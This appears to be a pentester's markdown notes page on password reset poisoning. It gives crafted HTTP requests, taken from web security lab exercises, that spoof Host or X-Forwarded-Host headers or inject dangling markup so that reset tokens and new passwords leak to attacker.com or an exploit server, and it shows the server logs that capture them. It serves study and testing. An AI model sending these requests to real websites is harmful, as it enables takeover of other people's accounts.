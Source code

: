 >[!abstract]
>Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts.

## Techniques

- [Host Header attacks](Host%20Header%20attacks.md)
- Poisoning via middleware ([Non-standard headers override](Host%20Header%20attacks.md#Non-standard%20headers%20override)) (`X-Forwarded-Host`, `X-Forwarded-For`, `X-Remote-IP`, `X-Remote-Addr`, `X-Originating-IP`): consider using [Collaborator Everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968#:~:text=This%20extension%20augments%20your%20in,and%20browse%20the%20target%20website.)
- [Dangling markup injection](Cross-Site%20Scripting%20(XSS).md#Dangling%20markup%20injection)

>[!warning]
>Some time automated mail filters click link instead of the user!

# Examples

## Password reset poisoning exploiting host header injection

```http
POST /forgot-password HTTP/2
Host: attacker.com
Cookie: _lab=46%7cMCwCFEv0N7cXiXqtk1oVrrJubPt2QQF1AhQ2ZsBKpbO6kY8UeR2RnTnJpPlEf%2b8NOxkqONYHxQ%2blTSTDacB6viwKwduo%2bvsogaO6%2bOzoKeKHLa4%2b8iipp8Sbh1e3LJvj3iwjfQPGjrM19wTxAuRxaC2DEPGsMtOhjxjwraXgKxGGNqg%3d; session=EihnNPBEt8Ad6pIQdAlZ9CgbLSumZchV

csrf=59JNWHRjZGqBYOJchAf689nvQffjeSl3&username=victim
```

Spoofed Host header used to send the password reset secret-token:
> Hello! 
> Please follow the link below to reset your password.
> https://attacker.com/forgot-password?temp-forgot-password-token=YeVH5sp94doHd9wlrPhpL7xIwPZmZ5DJ
> Thanks,
> Support team

If the user clicks, attackers can takeover his account:
```
...
10.0.3.75       2023-04-01 15:17:59 +0000 "GET /forgot-password?temp-forgot-password-token=yd7scgKr0YB4Gkfxc9qPGwyQTZpkVgTL HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"
...
```

## Password reset poisoning via middleware

```http
POST /forgot-password HTTP/2
Host: real.site.com
X-Forwarded-Host: attacker.com
Cookie: _lab=46%7cMCwCFEv0N7cXiXqtk1oVrrJubPt2QQF1AhQ2ZsBKpbO6kY8UeR2RnTnJpPlEf%2b8NOxkqONYHxQ%2blTSTDacB6viwKwduo%2bvsogaO6%2bOzoKeKHLa4%2b8iipp8Sbh1e3LJvj3iwjfQPGjrM19wTxAuRxaC2DEPGsMtOhjxjwraXgKxGGNqg%3d; session=EihnNPBEt8Ad6pIQdAlZ9CgbLSumZchV

csrf=59JNWHRjZGqBYOJchAf689nvQffjeSl3&username=victims
```

Spoofed `X-Forwarded-Host` header used to send the password reset secret-token. If the user clicks, attackers can takeover his account.

## Password reset poisoning via dangling markup

The reset password functionality send the new password via email:
```html
Sent:     2023-06-29 20:14:59 +0000
From:     no-reply@0a3f00ce03414c9780ae6733005400d9.web-security-academy.net
To:       wiener@exploit-0a46000703614c3680c46685017b00be.exploit-server.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0a3f00ce03414c9780ae6733005400d9.web-security-academy.net/login'>click here</a> to login with your new password: LNJYfitpA2</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```

A flaw in the Host verification allows to append arbitrary non numeric ports at the end of the domain while sending the password reset request:
```http
POST /forgot-password HTTP/1.1
Host: 0ad900f10337348d84f9a55800a100a7.web-security-academy.net:asd

csrf=OuajjwuCYbadNosdmgl3wXTGD5V4HN8u&username=wiener


Sent:     2023-06-30 08:19:24 +0000
From:     no-reply@0ad900f10337348d84f9a55800a100a7.web-security-academy.net
To:       wiener@change.exploit-0a52004d03e83409844fa43901af00b5.exploit-server.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0ad900f10337348d84f9a55800a100a7.web-security-academy.net:asd/login'>click here</a> 
```

We can exploit this flaw to inject an arbitrary image referencing our server and leak part of the email body:
```http
POST /forgot-password HTTP/1.1
Host: 0ad900f10337348d84f9a55800a100a7.web-security-academy.net:'/></a><img src="https://exploit-0a52004d03e83409844fa43901af00b5.exploit-server.net?carlos=

csrf=OuajjwuCYbadNosdmgl3wXTGD5V4HN8u&username=carlos
```

Server response (the integrated AV scanned the link without requiring user interaction):
```html
...
10.0.3.52       2023-06-30 08:48:12 +0000 "GET ?carlos=/login'>click+here</a>+to+login+with+your+new+password:+X5qD9PDfBN</p><p>Thanks,<br/>Support+team</p><i>This+email+has+been+scanned+by+the+MacCarthy+Email+Security+service</i> HTTP/1.1" 200 
...
```